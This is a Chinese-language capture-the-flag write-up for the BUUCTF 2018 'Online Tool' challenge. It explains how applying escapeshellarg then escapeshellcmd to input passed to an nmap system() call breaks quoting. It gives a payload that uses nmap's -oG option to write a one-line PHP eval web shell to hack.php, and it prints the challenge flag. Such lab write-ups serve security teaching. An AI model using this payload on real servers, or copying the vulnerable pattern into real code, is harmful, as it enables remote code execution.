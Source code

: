 # [BUUCTF 2018]Online Tool

[题目地址](https://buuoj.cn/challenges#[BUUCTF%202018]Online%20Tool)

php总能给我带来惊喜。

给了源代码，直接懵逼，毫无头绪，用的函数都没见过。

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

前面就是配置之类的，[escapeshellarg](https://www.php.net/manual/zh/function.escapeshellarg.php)和[escapeshellcmd](https://www.php.net/manual/zh/function.escapeshellcmd.php)都是新玩意。看了官方文档有点云里雾里，于是又搜到了[这个](https://blog.csdn.net/LYJ20010728/article/details/116902085)。清晰多了，简述一下。两者都是用来防止命令注入的，前者可以让执行命令时无法使用多个参数，后者让执行命令时无法执行多条。

```
escapeshellarg:
(PHP 4 >= 4.0.3, PHP 5, PHP 7)
把字符串转码为可以在 shell 命令里使用的参数
string escapeshellarg ( string $arg )
escapeshellarg() 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，并且还是确保安全的。对于用户输入的部分参数就应该使用这个函数。shell 函数包含 exec(), system() 执行运算符
概述：
1.确保用户只传递一个参数给命令
2.用户不能指定更多的参数一个
3.用户不能执行不同的命令

escapeshellcmd:
(PHP 4, PHP 5, PHP 7)
shell 元字符转义
string escapeshellcmd ( string $command )
escapeshellcmd() 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 exec() 或 system() 函数，或者 执行操作符 之前进行转义；反斜线（\）会在以下字符之前插入： &#;`|*?~<>^()[]{}$, \x0A 和 \xFF；' 和 " 仅在不配对儿的时候被转义；在 Windows 平台上，所有这些字符以及 % 和 ! 字符都会被空格代替
概述：
1.确保用户只执行一个命令
2.用户可以指定不限数量的参数
3.用户不能执行不同的命令
```

给出的链接里有关于这俩函数很好的例子。回到题本身，最后调用了system，绝对是命令注入了。程序本身功能是使用nmap扫提供的host，怎么构造payload？或许先把payload放出来再分析会更好。

```
?host=' <?php @eval($_POST["hack"]);?> -oG hack.php '
```

假装我们是程序，分析一下这串字符串在程序里的变化。取出host代表的字符串`' <?php @eval($_POST["hack"]);?> -oG hack.php '`然后escapeshellarg过后，字符串变成了这样：

```
''\''<?php @eval($_POST["hack"]);?> -oG hack.php '\'''
```

因为escapeshellarg函数实际上就干了这件事：给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号。“给字符串增加一个单引号”指的是被单引号分割成的部分的头和尾。比如payload里面有2个单引号，第一个单引号让开始和 `<?php @eval($_POST["hack"]);?> -oG hack.php '`两边加上单引号；第二个单引号又让`' <?php @eval($_POST["hack"]);?> -oG hack.php `和末尾啥也不是加上了单引号。继续，escapeshellcmd之后会咋样呢？

```
''\\''\<\?php @eval\(\$_POST\["hack"\]\)\;\?\> -oG hack.php '\\'''
```

escapeshellcmd还会转义字符串内已有的反斜杠。看起来结果好绕，实际上前面4个引号啥也不是，传给nmap的host为\<\?php @eval\(\$_POST\["hack"\]\)\;\?\>。-oG是一个选项，将命令和结果写到文件。总之无论它具体写什么，它都会把我们想要的木马写进去。文件名为hack.php，后4个引号同样没用，简直完美。如果觉得复杂可以用简化版本做个测试。

```php
<?php
$str="' <?php phpinfo();?> -oG hack.php '";
$str=escapeshellarg($str);
echo escapeshellcmd($str);
?>
```

系统有给上传地址。后面不用说了，连接快乐getshell。

## Flag
> flag{0229be70-ecaf-4cfe-8d6e-0752dc90a995}